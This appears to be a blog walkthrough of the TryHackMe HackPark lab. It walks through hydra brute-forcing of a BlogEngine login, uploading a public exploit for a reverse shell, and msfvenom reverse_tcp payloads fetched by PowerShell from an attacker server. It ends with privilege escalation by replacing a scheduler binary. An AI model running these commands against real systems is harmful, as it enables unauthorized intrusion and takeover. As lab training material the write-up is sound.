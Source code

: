 ```yaml
---
slug: hackpark-walkthrough
title: TryHackMe - HackPark - Walkthrough
authors: bw
tags: [learning, hackpark, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [HackPark][hackpark]. Let’s get started!

# Deploy Machine
First step is to deploy the machine! **NOTE:** This machine took about 3 minutes to fully boot up for me.

Then navigate to the website:

![h1](/src/img/thm/hackpark/h1.webp)

The picture is of a clown from a pretty famous movie. You could do a reverse image search on this if you don’t know the name, but I happen to know the name so I will just answer the question.

# Using Hydra
If we read through the next section we are looking for a Login page. This can be found on the menu button in the top right, and clicking **LOG-IN**

We also need to figure out what type of request this form is making in order to answer the next question.

Let’s run `hydra` against the log-in page. First we need to gather some information:

**Username:** We will use `admin` in this case
**Wordlist:** `rockyou.txt`
**URL:** `http://10.10.253.80/Account/login.aspx`
**POST parameters:** Let’s get these!

In order to get the POST parameters, let’s login with just `admin` and a random password. (I used `test1`). This will give use a POST request sent to the server. Now, let’s inspect the page.

First we need to go to **Network**, and click on the POST request. On the right-hand side, you will see **Resend**. Click on this and select **Edit and Resend**.

![h2](/src/img/thm/hackpark/h2.png)

From there, we can view the **Request Body** that is being sent to the server. Copy that whole thing and now we can configure our hydra attack.

![h3](/src/img/thm/hackpark/h3.png)

In this **Request Body**, we need to look for our `admin` and `test1` login and password that we used. We will replace those with `^USER^` and `^PASS^`, respectively. Lastly, we need something to tell hydra when a login attempt **didn’t** work. If we look at the login page when we tried to login previously, we see a “Login failed”. We can use that as our third parameter.

Advertisement

This hydra command is formatted like this:

`hydra -l <user_we_want_to_use> -P <wordlist> <ip> <request_method> '<page_to_attack>:<request_body_to_send_with_parameters>:<failed_notification>'`

Our `hydra` command will be something close to the following:

```bash
hydra -l admin -P ../rockyou.txt 10.10.253.80  http-post-form '/Account/login.aspx:__VIEWSTATE=I3MnpaPIRlkVeH4Kqrvda70AlTlHWpL7b8f3WLwFpdvduY8pg%2FR1KTlj85jTd1HyGNjf62TlDb63aZEhX60AcedUrAFssR0%2F2yq9HgfwhFkNK8lJzqzskyZ52KDSjg5gjbOhz3ke5TnvkzukBIkvgzGzGBqzkiyHRR8bZ6xWltRXOBkS8GomTXvkwVCTpWlKEypbzaZOWME%2BQjrbYQXOktLM8AMOV636Owd%2BwLD6NDYBZYiJs9fLFWVD%2F8GjdQdZukSWV3nPr9SEwGwLhqs%2BgOZT4H8p4SzdXk4sLahpDwygg1HKrbWh5We5Zepu9MRaR87i5pgDFuR0ZVo5QDECFRj%2BAVNQ9sjMu5FiqK62eNJAYEmp&__EVENTVALIDATION=EdyUhLFMjYGwbQuLybR9Bk4empok7oCUscNJn6WrxKizHeT7YhJHGNy%2BXB0Qoq8%2FhKHgGQRO24pmf81EejDPhbhuLgjZSExvSE6MGh4wBW9TEtIufI5vsgCmblpg5xNIcTRefmM%2BCGKT2V68xMx4RTUZ77NQy4gJmmc7GQj5GAckN12s&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
```

Letting hydra run, we get a successful attempt!

![h4](/src/img/thm/hackpark/h4.webp)

# Compromise the Machine
Now that we are logged in as `admin`. Navigate to **Admin** > **About** to find the version number.

From here we can go to [Exploit Database][exdb] to find an exploit! There are a few listed, but let’s use this one: [Link][exploit]. (Find the CVE here).

Now reading through the exploit, we need to upload it onto the server. The exploit states how to do this:

>First, we set the TcpClient address and port within the method below to our .>attack host, who has a reverse tcp listener waiting for a connection. Next, we >upload this file through the file manager. In the current (3.3.6) version of >BlogEngine, this is done by editing a post and clicking on the icon that looks >like an open file in the toolbar. Note that this file must be uploaded as >PostView.ascx. Once uploaded, the file will be in the /App_Data/files directory >off of the document root. The admin page that allows upload is: 
>
>`http://10.10.10.10/admin/app/editor/editpost.cshtml`
>
>Finally, the vulnerability is triggered by accessing the base URL for the blog >with a theme override specified like so:
>
>`http://10.10.10.10/?theme=../../App_Data/files`

Let’s follow those instructions! First, copy the “raw” over to your attack machine. Make sure to change the IP to your attack machine IP. (`tun0` if you run `ip a` or `ifconfig`). Also make sure to save the file as `PostView.ascx`.

Let’s go and upload the file. Navigate to **Content** > **Posts** > **Select Post** > **Open Folder Icon** > **Select exploit file** > **Save**

![h5](/src/img/thm/hackpark/h5.webp)

Now let’s start a netcat listener for the shell to come back to. Open a new terminal windows on attack machine and type: `nc -nvlp 4445`

Navigate to the folder: `http://10.10.253.80/?theme=../../App_Data/files`

View your terminal, and we see a shell!

![h6](/src/img/thm/hackpark/h6.png)

# Windows PrivEsc
Let’s generate a payload using `msfvenom` in order to get a meterpreter shell.

In a new terminal window generate the payload with the following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<THM_ip> LPORT=4446 -f exe -o win_shell.exe
```

Once your payload is generated, we need to upload it. In the folder where you created your payload, open a Python http server with: `python3 -m http.server 80`

Back in the victim machine shell, use the following command to download the payload on to the server:

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<thm_ip>:80/win_shell.exe' -OutFile 'c:\windows\temp\win_shell.exe'
```

Before we can execute the file, we need to have a listener open. For this we will use metasploit:

```bash
msfconsole
use exploit/multi/handler
set lhost tun0
set lport 4446
set payload windows/meterpreter/reverse_tcp
run
```

Now that our listener is running, execute the file: `win_shell.exe`

We have our meterpreter shell!

![h7](/src/img/thm/hackpark/h7.png)

Let’s gather info:

`sysinfo` (OS answer)
`ps` (Abnormal service answer)

Navigate to `C:\Program Files (x86)\SystemScheduler\Events` to find the binary.

We found our binary, now lets create a payload under that binary:
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<thm_ip> LPORT=4447 -f exe -o Message.exe
```

Download that file onto the server using the same method we did previously:
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://<thm_ip>:80/Message.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"
```

Once that is complete, background your current metasploit session, and set the multi/handler options to utilize the new port 4447. Once you run that, a session should come up.

`getuid` shows that we are now `Administrator`

![h8](/src/img/thm/hackpark/h8.png)

Let’s navigate to Jeff’s Desktop and get the flag!

![h9](/src/img/thm/hackpark/h9.png)

And then get the root flag:

![h10](/src/img/thm/hackpark/h10.png)

# PrivEsc without Metasploit
This section I will leave for you to do by yourself. It is similar to the Metasploit, but instead of using Metasploit, you will use netcat listener to get the shell instead of the Metasploit multi/handler. The room does a good job of walking you through the process. You will also use [winPEAS][winpeas] to enumerate the system.

Review
This room was a more intermediate level room that still walked you through some steps, but not everything. I liked that it didn’t hand hold throughout the entire process, and it still left some research, previous knowledge up to the person doing it. Overall, it was a great room that I highly recommend!

References
[TryHackMe][thm] | [HackPark Room][hackpark] | [Exploit Database][exdb] | [Exploit][exploit] | [winPEAS][winpeas]

[thm]: https://tryhackme.com
[hackpark]: https://tryhackme.com/why-subscribe?roomCode=hackpark
[exdb]: https://www.exploit-db.com
[exploit]: https://www.exploit-db.com/exploits/46353
[winpeas]: https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS